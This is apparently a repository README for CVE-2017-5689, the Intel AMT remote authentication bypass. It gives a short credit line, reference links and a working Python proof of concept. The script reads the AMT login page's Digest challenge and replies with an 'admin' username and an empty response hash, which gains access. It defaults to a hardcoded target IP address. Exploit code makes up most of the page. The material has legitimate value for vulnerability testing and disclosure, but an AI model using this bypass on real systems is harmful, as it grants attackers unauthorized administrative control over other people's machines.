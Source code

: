 # CVE-2017-5689

- Report: March 2017
- Credit: Maksim Malyutin from Embedi

## PoC

```python
#!/usr/bin/env python
import requests
import sys

if len(sys.argv) > 1:
   ip = str(sys.argv[1])
else:
   ip = '168.235.84.117'

url = 'http://'+ip+':16992/index.htm'
req = requests.get(url)
auth = req.headers['WWW-Authenticate']
words = auth.split('"')
headers = 'Digest username= "admin", realm="'+words[1]+'", nonce="'+words[3]+'", uri="index.htm", response="", qop="auth", nc="00000001", cnonce="8858482c60513ab5" '
poc = requests.get(url, headers={'Authorization': headers})
if poc.status_code == 200:
   print('Success')
else:
   print('Failed')
```

## Reference

- [Mitigating CVE-2017-5689, an Intel Management Engine Vulnerability](http://blog.trendmicro.com/trendlabs-security-intelligence/mitigating-cve-2017-5689-intel-management-engine-vulnerability/)
- [Explained — How Intel AMT Vulnerability Allows to Hack Computers Remotely](http://thehackernews.com/2017/05/intel-amt-vulnerability.html)
- [http-vuln-cve2017-5689 NSE Script](https://nmap.org/nsedoc/scripts/http-vuln-cve2017-5689.html)
- [simple python poc for CVE-2017-5689](https://github.com/kd0kkv/intel_amt_bypass)
- [CVE-2017-5689](https://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5689)
